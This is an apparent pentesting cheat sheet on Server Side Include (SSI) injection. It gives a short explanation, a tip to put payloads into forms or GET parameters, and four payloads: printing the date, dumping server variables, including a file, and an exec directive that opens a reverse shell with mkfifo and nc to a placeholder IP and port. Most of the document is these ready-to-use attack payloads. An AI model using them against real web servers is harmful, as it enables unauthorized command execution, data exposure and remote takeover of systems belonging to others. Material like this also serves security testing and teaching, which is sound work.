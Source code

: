 # Server Side Include Injection (SSI Injection)

## Introduction
SSI (Server Side Includes) Injection is a type of web security vulnerability that occurs when a web application allows untrusted user-supplied data to be used as part of a Server Side Include (SSI) directive

## Where to find
Usually it can be found anywhere. Just try to input the payload in the form or GET parameter

## How to exploit
1. Print a date
```
<!--#echo var="DATE_LOCAL" -->
```

2. Print all the variabels
```
<!--#printenv -->
```

3. Include a file
```
<!--#include file="includefile.html" -->
```

4. Doing a reverse shell
```
<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

## References
* [OWASP](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
